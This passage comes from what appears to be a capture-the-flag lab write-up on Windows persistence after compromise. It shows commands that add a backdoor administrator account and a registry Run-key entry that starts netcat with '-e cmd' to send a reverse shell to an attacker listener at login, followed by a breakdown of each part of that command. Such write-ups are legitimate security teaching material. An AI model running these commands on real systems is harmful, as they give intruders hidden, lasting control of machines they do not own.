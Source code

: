 -   As we are an administrator we can also add a new user and add them to the administrators group.

-   **I add a new user as part of the administrators group**:
    -   `net user bloodstiller bl00dst1ll3r! /add`
    -   `net localgroup Administrators bloodstiller /add`
    -   {{< figure src="/ox-hugo/2024-11-04-201031_.png" >}}
    -   +Note+: I am doing this purely as a mechanism to showcase different ways to establish persistence, however as you have probably noticed there is no way to actually login as this user, the same way as there would be no way to use the Administrators Silver ticket if we made it, so what do we do, glad you asked.


### Living off the land persistence: {#living-off-the-land-persistence}

-   As this system only has the webserver running there are no other services we can authenticate against as a means of persistence. Creating silver tickets and adding admin users is great but if we cannot actually utilize those accounts &amp; tickets what can we do? We need to have the host call out to us, by creating a backdoor, or multiple back-doors.


#### Creating a registry key for a back-door: {#creating-a-registry-key-for-a-back-door}

-   The first backdoor I will create is to create an entry in the registry that runs on login, so that when a user logs in it will call out to my attack machine which has a listener running.
-   **Registry Key added**:
    -   `Reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v NewBackDoor /t REG_SZ /d "C:\Users\sam.emerson\Documents\nc64.exe 10.10.14.121 4433 -e cmd"`
    -   {{< figure src="/ox-hugo/2024-11-05-100419_.png" >}}
    -   This will trigger when a user logs in, however as we have no way to test this or login as a normal user, we will need to also have another way in.


##### Registry Backdoor Command Breakdown: {#registry-backdoor-command-breakdown}

-   **Command Breakdown:**
    -   `Reg add`
        -   Adds or modifies a registry key or value.

    -   `"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"`
        -   Specifies the registry path.
        -   The `Run` key allows programs to run automatically when the user logs in.

    -   `/v NewBackDoor`
        -   Specifies the name of the registry value being added, here `NewBackDoor`.
        -   Acts as the identifier for this specific entry.

    -   `/t REG_SZ`
        -   Defines the type of the registry value.
        -   `REG_SZ` is a string value type commonly used for paths or commands.

    -   `/d "C:\Users\sam.emerson\Documents\nc64.exe 10.10.14.121 4433 -e cmd"`
        -   Sets the data for the registry value.
        -   **Path**: `"C:\Users\sam.emerson\Documents\nc64.exe"`
            -   Path to `nc64.exe` (likely `Netcat`), used to open a reverse shell.
        -   **IP Address\***: `10.10.14.121`
            -   Our attack machine that is listening where the reverse shell will connect.
        -   **Port**: `4433`
            -   The port number on our attack machine listening for the connection.
        -   **Flag**: `-e cmd`
            -   The `-e` flag executes `cmd.exe` upon connection, providing a command shell.

